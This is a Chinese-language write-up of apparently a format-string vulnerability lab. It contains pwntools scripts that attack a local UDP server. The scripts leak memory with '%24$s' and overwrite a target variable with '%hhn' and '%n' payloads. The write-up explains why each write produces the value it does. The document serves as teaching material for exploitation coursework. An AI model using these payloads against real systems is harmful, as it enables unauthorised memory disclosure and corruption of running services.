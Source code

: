 `exp.py`脚本内容如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

payload = p32(0xbffff0a0) + "%24$s"
io.sendline(payload)

io.interactive()
```

结果如下，可以看到泄露出地址`0xbffff0a0`，由于我们的输入为不可见字符，故输出的内容也不可见。

![task4B](../images/lab5-task4B.png)

## Task 5: Change the Server Program’s Memory

### Task 5.A: Change the value to a different value.

脚本如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

payload = p32(0x0804a040) + "%24$hhn"
io.sendline(payload)

io.interactive()
```

结果如下图，可以看到变量`target`的低字节由`0x44`被改为`0x04`，这是因为`%24$hhn`能够对目标地址`0x804a040`进行覆盖一个字节，且覆盖内容为前面字符串的长度，即`len(p32(0x0804a040)) == 4`。

![task5A](../images/lab5-task5A.png)

### Task 5.B: Change the value to 0x500

脚本如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

payload = p32(0x0804a040)
payload += "%{}c".format(0x500-len(payload))
payload += "%24$n"
io.sendline(payload)

io.interactive()
```
